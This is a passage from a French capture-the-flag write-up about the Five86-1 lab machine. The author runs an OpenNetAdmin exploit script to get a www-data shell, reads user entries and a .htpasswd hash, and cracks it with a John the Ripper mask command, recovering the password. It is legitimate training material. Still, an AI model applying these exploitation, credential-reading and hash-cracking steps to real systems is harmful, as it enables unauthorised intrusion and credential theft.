 Finalement en passant juste l'URL de base ça fonctionne très bien :

```console
$ sh ona.sh http://192.168.56.141/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux five86-1 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux
$ pwd
/opt/ona/www
```

Ce premier shell était donc rapide.

Le seul défaut, c'est que lorsque l'on passe un `+` dans une commande le caractère est passé tel quel dans la requête HTTP (l'exploit lit le terminal en boucle et génère un payload qu'il envoie par cURL) et par conséquent traité comme un espace. On doit donc par exemple replacer un `chmod +x` en `chmod 755`.

Une fois un shell récupéré je regarde si _ONA_ utilise une base de données et c'est le cas. Mais en regardant les hashes dans la table `users` il s'avère qu'ils correspondent à des passwords trop faibles pour être utiles dans la suite du CTF.

Je vois différents utilisateurs présents dans le fichier `passwd` :

```
moss:x:1001:1001:Maurice Moss:/home/moss:/bin/bash
roy:x:1002:1002:Roy Trenneman:/home/roy:/bin/bash
jen:x:1003:1003:Jen Barber:/home/jen:/bin/bash
richmond:x:1004:1004:Richmond Avenal:/home/richmond:/bin/bash
douglas:x:1005:1005:Douglas Reynholm:/home/douglas:/bin/bash
```

Aucun utilisateur n'a de fichier qui nous est lisible.

Après avoir cherché sans succès une information concernant le _Webmin_ j'ai finalement trouvé un `.htpasswd` dans `/var/www/html` :

```console
www-data@five86-1:/$ cat /var/www/.htpasswd 
douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1

# To make things slightly less painful (a standard dictionary will likely fail),
# use the following character set for this 10 character password: aefhrt
```

J'ai utilisé _JtR_ de cette façon :

```bash
john --format=md5crypt   --mask='[aefhrt][aefhrt][aefhrt][aefhrt][aefhrt][aefhrt][aefhrt][aefhrt][aefhrt][aefhrt]' --length=10 hashes.txt
```

Le masque utilisé fait peut être double emploi avec l'option `--length`... Après environ 17 minutes (ça reste acceptable) le password était trouvé :

```
fatherrrrr       (douglas)
```

